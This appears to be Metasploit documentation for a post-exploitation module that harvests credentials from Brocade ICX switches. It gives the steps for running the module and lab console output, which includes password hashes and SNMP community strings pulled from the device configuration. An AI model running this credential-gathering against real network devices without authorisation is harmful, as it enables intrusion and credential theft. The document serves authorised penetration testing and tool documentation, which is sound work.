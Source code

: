## Vulnerable Application

  This module has been tested on the following hardware/OS combinations.

  * Brocade ICX 6430-24
    * Firmware: 08.0.20T311

  The ICX config can be found [no passwords](https://github.com/h00die/MSF-Testing-Scripts/blob/master/brocade_icx6430_nopass.conf), 
  [hashes](https://github.com/h00die/MSF-Testing-Scripts/blob/master/brocade_icx6430_pass.conf)

  This module will look for the follow parameters which contain credentials:

  * FastIron
    * `show configuration`

!!! keep in mind 'password-display' http://wwwaem.brocade.com/content/html/en/command-reference-guide/fastiron-08040-commandref/GUID-169889CD-1A74-4A23-AC78-38796692374F.html
!!! need to be able to give a password to enable

    * super-user-password
    * username
    * SNMP

## Verification Steps

  1. Start msfconsole
  2. Get a shell
  3. Do: ```use post/brocade/gather/enum_brocade```
  4. Do: ```set session [id]```
  5. Do: ```set verbose true```
  6. Do: ```run```

## Scenarios

### ICX 6430-24, FastIron 08.0.20T311

#### SSH Session with password-display off

```
resource (brocade.rb)> use post/brocade/gather/enum_brocade
resource (brocade.rb)> set session 1
session => 1
resource (brocade.rb)> set verbose true
verbose => true
resource (brocade.rb)> run
[*] In a non-enabled cli
[*] Getting version information
[*] OS: 08.0.30hT311
[+] Version information stored in to loot /root/.msf4/loot/20190601203656_default_10.0.4.51_brocade.version_751557.txt
[*] Gathering info from show configuration
[!] password-display is disabled, no password hashes displayed in config
[*] Post module execution completed
```

#### SSH Session with Enable run 

```
resource (brocade.rb)> use post/brocade/gather/enum_brocade
resource (brocade.rb)> set session 1
session => 1
resource (brocade.rb)> set verbose true
verbose => true
[*] In an enabled cli
[*] Getting version information
[*] OS: 08.0.30hT311
[+] Version information stored in to loot /root/.msf4/loot/20190601221921_default_10.0.4.51_brocade.version_839783.txt
[*] Gathering info from show configuration
[+] password-display is enabled, hashes will be displayed in config
[+] enable password hash $1$QP3H93Wm$uxYAs2HmAK0lQiP3ig5tm.
[+] User brocade of type 8 found with password hash $1$f/uxhovU$dST5lNskZCPQe/5QijULi0.
[+] ENCRYPTED SNMP community $MlVzZCFAbg== with permissions ro
[+] ENCRYPTED SNMP community $U2kyXj1k with permissions rw
[*] Post module execution completed
msf5 post(brocade/gather/enum_brocade) > loot

Loot
====

host       service  type             name         content     info                   path
----       -------  ----             ----         -------     ----                   ----
10.0.4.51           brocade.version  version.txt  text/plain  Brocade Version        /root/.msf4/loot/20190601221959_default_10.0.4.51_brocade.version_003751.txt
10.0.4.51           brocade.config   config.txt   text/plain  Brocade Configuration  /root/.msf4/loot/20190601222004_default_10.0.4.51_brocade.config_998514.txt

msf5 post(brocade/gather/enum_brocade) > creds
Credentials
===========

host       origin     service         public   private                             realm  private_type
----       ------     -------         ------   -------                             -----  ------------
10.0.4.51  10.0.4.51  22/tcp          enable   $1$QP3H93Wm$uxYAs2HmAK0lQiP3ig5tm.         Nonreplayable hash
10.0.4.51  10.0.4.51  161/udp (snmp)           $MlVzZCFAbg==                              Nonreplayable hash
10.0.4.51  10.0.4.51  161/udp (snmp)           $U2kyXj1k                                  Nonreplayable hash
10.0.4.51  10.0.4.51  22/tcp          brocade  $1$f/uxhovU$dST5lNskZCPQe/5QijULi0         Nonreplayable hash
```
